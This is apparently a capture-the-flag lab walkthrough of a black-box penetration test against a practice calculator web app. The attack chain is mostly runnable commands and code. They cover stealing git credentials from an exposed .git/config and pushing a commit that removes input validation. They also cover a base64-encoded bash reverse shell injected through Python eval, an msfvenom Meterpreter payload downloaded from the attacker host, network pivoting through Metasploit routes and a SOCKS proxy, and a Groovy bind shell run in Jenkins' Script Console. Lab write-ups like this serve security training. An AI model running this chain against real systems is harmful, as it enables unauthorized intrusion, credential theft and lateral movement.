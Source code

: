 # BLACK BOX TESTING 2

## GIVEN   
**MY IP ADDRESS**: 192.32.59.2

## PROCEDURE

### RECON

```
nmap -A --script vuln -p- online-calc.com
```

![1.1](./imgs/1.1.png)

TARGET IP: 192.32.59.3

**OPEN PORTS**:<br>
80 http (Apache 2.4.29 Web Server),<br>
5000 http,<br>
8000 http (Python 2.7.17 Web Server)<br>

Port 80 is the default apache page<br>
Port 5000 is a calc webapp<br>
Port 8000 is hosting a git repo<br>

**FILE OF INTEREST**: http://online-calc.com:8000/.git/config

### GIT CREDENTIALS

```
curl http://online-calc.com:8000/.git/config
```

![2.1](./imgs/2.1.png)

name = Jeremy McCarthy<br>
email = jeremy@dummycorp.com<br>
**password** = diamonds<br>
**username** = jeremy<br>

**GIT UR**L: http://online-calc.com/projects/online-calc

### DISABLE INPUT VALIDATION

```
git clone http://online-calc.com/projects/online-calc
git log
```

![3.1](./imgs/3.1.png)

Webapp was vulnerable to RCE through the eval function

Find new code added to patch this vulnerability
```
git diff 9aa6151c1d5e92ae0bd3d8ad8789ae9bb2d29edd 4bcfb590014321deb984237da2a319206975170f
```

![3.2](./imgs/3.2.png)

Comment out code in API.py:
```
# if not isValid(expr):
#	return error("Invalid expression!")
```

![3.3](./imgs/3.3.png)

Push changes to git repo
```
git add -A
git commit -m "updated"
git push origin
```

Check if webapp is updated
```
curl http://online-calc.com:8000/API.py
```

![3.4](./imgs/3.4.png)

### RCE REVERSE SHELL

Calc input is run through python eval function

Reverse shell bash script<br>
-c COMMAND<br>
-i interactive shell
```
bash -c 'bash -i >& /dev/tcp/192.32.59.2/1234 0>&1'
```

Reverse shell embedded in python code
```
__import__('os').system("bash -c 'bash -i >& /dev/tcp/192.32.59.2/1234 0>&1'")
```

Encode reverse shell
```
echo "bash -c 'bash -i >& /dev/tcp/192.32.59.2/1234 0>&1'" | base64
```

**ENCODED SCRIPT**:YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMzIuNTkuMi8xMjM0IDA+JjEnCg==

Final python script
```
__import__('os').system("echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMzIuNTkuMi8xMjM0IDA+JjEnCg== | base64 -d | bash")
```

Start listener
```
nc -lnvp 1234
```

Submit python script to calc app

![4.1](./imgs/4.1.png)

```
find / -iname *flag*
cat /tmp/flag
```

![4.2](./imgs/4.2.png)

**FLAG**: 3b2b474c06380f696b38c1498f795e054374

```
ip addr
```

Host connected to another network that we can pivot to:<br>
eth0: 192.32.59.3/24 (Current Network)<br>
**eth1**:192.244.194.2/24 (Unreachable Network)

![4.3](./imgs/4.3.png)

### METERPRETER

Create payload & start server<br>
-p PAYLOAD
-f FORMAT
```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.32.59.2 LPORT=4444 -f elf > PAYLOAD
python3 -m http.server 80
```

Download payload on target machine
```
curl http://192.32.59.2/PAYLOAD > PAYLOAD
```

![5.1](./imgs/5.1.png)

Set up payload handler in metasploit
```
msfconsole
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LHOST 192.32.59.2
set LPORT 4444
exploit
```

Execute payload
```
chmod +x PAYLOAD
./PAYLOAD
```

![5.2](./imgs/5.2.png)

### PIVOT

Run port scan on other network
```
run autoroute -s 192.244.194.0/24
background
use auxiliary/scanner/portscan/tcp 
set RHOSTS 192.244.194.0/24
run
```

![6.1](./imgs/6.1.png)

**IP (OPEN PORT)**: 192.244.19.3 (8080)

Configure port forwarding and run nmap
```
sessions -i 1
portfwd add -l 5555 -p 8080 -r 192.244.194.3
background
nmap -sV -sC -p5555 localhost
```

![6.2](./imgs/6.2.png)

SERVICE: http (Jetty 9.4.27)

Start proxy server to access website
```
use auxiliary/server/socks_proxy
set SRVPORT 9050 #Default port for proxychains
set VERSION 4a
run
```

Test to see if we can access network
-Pn pingless scan (proxies don't support ping)
-sT tcp scan
```
proxychains nmap -sT -Pn 192.244.194.3
```

Configure proxy for browser:<br>
- Manual proxy config
- SOCKS Host: 127.0.0.1
- Port: 9050
- Socks v4

Website running Jenkins (automation server)

![6.3](./imgs/6.3.png)

### GETTING SHELL ACCESS

Go to Jenkins > Manage Jenkins > Script Console

Execute groovy bind script in the Script Console:
```
int port=6666;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start()
Socket s = new java.net.ServerSocket(port).accept()
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Connect to the server
```
proxychains nc -v 192.244.194.3 6666
```

![7.1](./imgs/7.1.png)

